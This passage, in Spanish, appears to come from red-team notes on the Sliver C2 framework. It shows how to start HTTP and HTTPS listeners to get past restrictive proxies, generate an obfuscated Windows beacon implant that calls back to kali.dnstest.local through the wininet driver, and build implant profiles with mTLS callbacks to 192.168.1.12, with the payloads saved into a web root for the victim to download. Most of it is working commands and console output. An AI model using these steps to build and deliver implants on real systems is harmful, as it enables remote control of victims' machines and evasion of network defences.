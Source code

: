 

#### Bypassing HTTP/S Proxys

Se puede dar el caso de un entorno restrictivo en el que no podamos usar mtls, por lo que podemos setear un listener http y otro https, sobre el que podemos intentar que la víctima se conecte. HTTP es igual de seguro que HTTP/S debido a que el contenido de los implantes ya van cifrados, pero se debe tratar igualmente de usar https en primera instancia. Tambien podemos usar el driver **wininet**, que si bien es más propenso a ser analizado nos permite más funcionalidades.

<pre><code>sliver > jobs

[*] No active jobs

sliver > http

[*] Starting HTTP :80 listener ...
[*] Successfully started job #3

sliver > https

[*] Starting HTTPS :443 listener ...

[*] Successfully started job #4

sliver > jobs

 ID   Name    Protocol   Port 
==== ======= ========== ======
 3    http    tcp        80   
 4    https   tcp        443  

<strong>sliver > generate beacon --http kali.dnstest.local,kali.dnstest.local?driver=wininet --seconds 5 --jitter 0 --save /tmp/beacon_http.exe
</strong>
[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 00:00:23
[*] Implant saved to /tmp/beacon_http.exe
</code></pre>

Opciones para customizar wininet:

{% embed url="https://github.com/BishopFox/sliver/wiki/C2-Advanced-Options" %}

### Profiles

Los perfiles nos permiten el no tener que escribir todas las flags al generar un implante o beacon.

```bash
sliver > profiles new --mtls 192.168.1.12 --arch amd64 --os windows --format exe test_profile

[*] Saved new implant profile test_profile

sliver > profiles new beacon  --mtls 192.168.1.12 --arch amd64 --os windows --format exe --seconds 5 --jitter 3 test_beacon

[*] Saved new implant profile (beacon) test_beacon

sliver > profiles generate --save /var/www/html test_profile

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 29s
[*] Implant saved to /var/www/html/IMPORTANT_NAPKIN.exe

sliver > profiles generate --save /var/www/html test_beacon

[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 27s
```